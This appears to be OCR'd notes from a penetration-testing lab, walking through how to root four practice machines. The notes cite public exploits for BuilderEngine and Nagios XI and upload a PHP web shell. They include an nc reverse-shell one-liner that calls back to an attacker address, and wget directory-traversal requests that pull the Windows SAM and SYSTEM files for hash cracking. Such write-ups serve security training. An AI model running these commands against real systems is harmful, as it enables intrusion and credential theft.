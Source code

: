 ```bash
Bob The Builder (.150)
```
Operating SystemLinux
Points10
Similar Machine (Root)VulnHub’s Sedna
Steps to Root
1. Port 481 Directory Bruteforce the site to find /build
2. It is a BuilderEngine 3.5.0 - Arbitrary File Upload -
https://www.exploit-db.com/exploits/40390
1. Modify the action attribute to point it to target machine
2. Upload PHP Shell
3. Access it on https://192.168.XX.150:481/build/files/shell.php
4. Root shell!

```bash
Locutus (.161)
```
Operating SystemWindows
Points10
Similar Machine (Root)
Steps to Root
1. Machine is vulnerable to https://www.exploit-db.com/exploits/46307
2. Run python 46307.py 192.168.XX.152 7337 “touch /tmp/f; rm /tmp/f; mkfifo /tmp/f; cat
/tmp/f | nc 192.168.XX.XX 1337 > /tmp/f”
1. Root shell!

```bash
Ashley Brown (.161)
```
Operating SystemWindows
Points10
Similar Machine (Root)
Steps to Root
1. Find the port for website
2. It is vulnerable to Directory Traversal and LFI -
https://www.exploit-db.com/exploits/23318
1. Get the SAM - wget
http://192.168.XX.161/..%5C..%5C..%5C..%5C..%5CWindows..%5CSystem32..%5Ccon
fig..%5CRegBack..%5CSAM.OLD -O sam.old
1. Get the SYSTEM - wget
http://192.168.XX.161/..%5C..%5C..%5C..%5C..%5CWindows..%5CSystem32..%5Ccon
fig..%5CRegBack..%5CSYSTEM.OLD -O system.old
1. pwdump system.old sam.old and you will get the Hashes
2. Brute it with john
3. Login to RDP
4. Root shell!

```bash
Nagy (.153)
```
Operating SystemLinux
Points10
Similar Machine (Root)
Steps to Root
1. Nagios XI 5.5.6 - Remote Code Execution / Privilege Escalation -
https://www.exploit-db.com/exploits/46221
1. Run python nagios.py -t 192.168.XX.216 -ip 192.168.XX.XX -port 8081 -ncip
192.168.XX.XX -ncport 443
1. User shell!
Alternative exploit: https://github.com/jakgibb/nagiosxi-root-rce-exploit
